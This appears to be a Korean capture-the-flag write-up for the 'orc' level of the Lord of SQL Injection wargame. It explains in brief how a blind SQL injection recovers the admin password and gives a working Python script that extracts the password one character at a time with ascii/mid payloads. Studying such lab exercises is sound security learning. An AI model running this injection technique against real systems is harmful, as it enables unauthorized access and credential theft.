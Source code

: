 <img width="88" alt="스크린샷 2020-01-14 오후 2 49 06" src="https://user-images.githubusercontent.com/54495632/72317860-ec65fa80-36dd-11ea-889b-45323437421d.png">

4번 ORC

<img width="651" alt="스크린샷 2020-01-14 오후 2 49 12" src="https://user-images.githubusercontent.com/54495632/72317872-f12aae80-36dd-11ea-9287-ba881c08323d.png">

쿼리 자체는 이미 id에 admin이 입력되어 있는 형태이고
pw를 찾아서 입력하면 문제를 해결할 수 있다.

preg_match로 딱히 중요한게 필터링 되지는 않는다.

<img width="637" alt="스크린샷 2020-01-14 오후 2 51 05" src="https://user-images.githubusercontent.com/54495632/72317917-1cad9900-36de-11ea-9311-d8ac5f4e5a12.png">

다음과 같은 형식으로 pw의 길이를 찾았다.
pw의 where절 조건을 TRUE로 맞추면 id=admin에 의해
Hello admin이 출력된다.

<img width="294" alt="스크린샷 2020-01-14 오후 2 55 01" src="https://user-images.githubusercontent.com/54495632/72317974-4d8dce00-36de-11ea-8196-040673102328.png">

길이가 8이라는 조건을 이용하여 파이썬으로 해당 pw를 찾았다.

<img width="611" alt="스크린샷 2020-01-14 오후 2 55 16" src="https://user-images.githubusercontent.com/54495632/72317984-5a122680-36de-11ea-8e8e-48a62970f4e4.png">

알맞은 pw를 입력하여 문제를 해결하였다.

import requests

cookies={'PHPSESSID':'넣을 쿠키값'}
url="https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?"

pw=""
for i in range(1,9):
    for j in range(33,128):
        query="pw=%27or+ascii%28mid%28pw%2C"+str(i)+"%2C1%29%29%3D"+str(j)+"%23"
        geturl=url+query
        res=requests.get(geturl,cookies=cookies)
        if((res.text).find("Hello admin")>0):
            pw+=chr(j)
            print (pw)
            break

print ("finish pw :"+pw)